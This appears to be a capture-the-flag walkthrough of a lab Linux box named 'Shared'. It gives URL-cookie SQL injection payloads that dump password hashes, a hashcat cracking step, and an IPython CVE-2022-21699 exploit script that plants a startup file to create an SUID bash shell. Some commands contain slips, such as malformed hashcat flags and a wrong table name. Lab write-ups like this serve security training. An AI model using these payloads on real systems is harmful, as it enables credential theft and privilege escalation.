 # Shared
### Medium linux box

##### Start with an nmap scan:
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FvunymQaGuIELhAVfpFNU%2Fnmapscan.jpg?alt=media&token=36d6168c-845f-4150-be68-ecfc1a51dd68 "nmap results")

##### Visit port 80 and navigate to the checkout page. There's a URL encoded cookie named `custom_cart=`. Decode the cookie and note it's format: `<Item>:<Quantity>`

##### The cookie ended up being vulnerable to SQLi. Portswigger's sqli courses helped a lot here. URL encode the payload.

#### `' UNION SELECT 1 -- -` No values
#### `' UNION SELECT 1,2 -- -` No values
#### `' UNION SELECT 1,2,3 -- -` Values are reflected!
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiMA8il58YnoiSfSBNhwv%2FBURPCOOKIESQL.jpg?alt=media&token=ca2f7673-855a-4e73-9e13-626d989795d6 ")

### SQLi payloads:
##### Find current database:
#### `' UNION SELECT 1,database(),3 -- -`
##### Get tables in checkout database:
#### `'UNION SELECT 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='checkout' -- -`
##### Enumerate columns in user table from the checkout database:
#### `' UNION SELECT 1,group_concat(column_name),3 from information_schema.tables WHERE table_schema='user' -- -`
##### Get values from the user table:
#### `' UNION SELECT 1,group_concat(id, ':', password),3 from checkout.user -- -`

##### Finally, we get a hash that we can crack! I used hashcat
#### `hashcat -a -0 -m -0 <hash> <wordlist>`

##### ssh into the james_mason account with the cracked password

### Privilege Escalation
##### Transfer pspy64 and linpeas to the machine to see running processes and find sensitive files.
##### We find ipython and an interesting file, `/opt/scripts_review`. It reveals a cronjob being every minute by `dan_smith`
```bash
/bin/sh -c
/usr/bin/pkill ipython;
cd opt/scripts review/ && /usr/local/bin/ipython
```
##### Looking more into ipython, I found CVE-2022-21699. "Arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another"
#####   1. Based on the cronjob ipython is executed at `/opt/scripts_review` directory where we have write access
#####   2. We have to create `/opt/scriptsreview/profile_default` and `opt/scripts_review/profile_default/startup`
#####   3. Create a python script to set `dan_smith` SUID bit to `/bin/bash` for us to escalate priveleges at `/opt/scripts_review/profile_default/startup`
#### Make ascript that creates a directory and another python script that executes `script.sh`
```bash
james_mason@shared:/tmp$ cat script.sh
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os; os.system("cp /bin/bash /tmp/danbash; chmod u+s /tmp/danbash")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared: /tmp$ chmod +x script.sh
james_mason@shared: /tmp$ ./script.sh
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiHCOT3FpQ65fr8Iq6a5t%2Fimage.png?alt=media&token=188fb7a8-1648-49d5-bfdd-b4b9e7dc80cb "script.sh")

##### Keep running `script.sh` because there's a cronjob running as root that deletes everything in `scripts_review`. Wait for the cronjob to execute and create `danbash`. Then execute `danbash`

```bash
james_mason@shared: /tmp$ ./danbash -p
```
##### From there you can copy the ssh key for `dan_smith` and ssh into the account
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FRENhkyRf5bpOe4mSigPK%2Fimage.png?alt=media&token=d22f0e92-ee4f-48ae-bfa5-dd01ac9eb785 "id_rsa")



